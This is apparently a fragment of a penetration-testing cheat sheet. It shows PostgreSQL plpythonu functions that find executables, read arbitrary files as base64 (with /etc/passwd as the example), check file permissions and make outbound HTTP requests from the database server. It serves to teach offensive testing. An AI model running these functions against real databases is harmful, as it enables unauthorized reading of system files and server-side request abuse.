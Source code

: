 ```sql
SELECT find_exe("psql"); #Find executable by susbstring
```
{{#endtab}}

{{#tab name="Read"}}
```sql
CREATE OR REPLACE FUNCTION read (path text)
RETURNS VARCHAR(65535) stable
AS $$
import base64
encoded_string= base64.b64encode(open(path).read())
return encoded_string.decode('utf-8')
return open(path).read()
$$
LANGUAGE 'plpythonu';

select read('/etc/passwd'); #Read a file in b64
```
{{#endtab}}

{{#tab name="Get perms"}}
```sql
CREATE OR REPLACE FUNCTION get_perms (path text)
RETURNS VARCHAR(65535) stable
AS $$
import os
status = os.stat(path)
perms = oct(status.st_mode)[-3:]
return str(perms)
$$
LANGUAGE 'plpythonu';

select get_perms("/etc/passwd"); # Get perms of file
```
{{#endtab}}

{{#tab name="Request"}}
```sql
CREATE OR REPLACE FUNCTION req2 (url text)
RETURNS VARCHAR(65535) stable
AS $$
import urllib
r = urllib.urlopen(url)
return r.read()
$$
LANGUAGE 'plpythonu';

SELECT req2('https://google.com'); #Request using python2

CREATE OR REPLACE FUNCTION req3 (url text)
RETURNS VARCHAR(65535) stable
AS $$
from urllib import request
r = request.urlopen(url)
return r.read()
$$
LANGUAGE 'plpythonu';

SELECT req3('https://google.com'); #Request using python3
```
{{#endtab}}
{{#endtabs}}
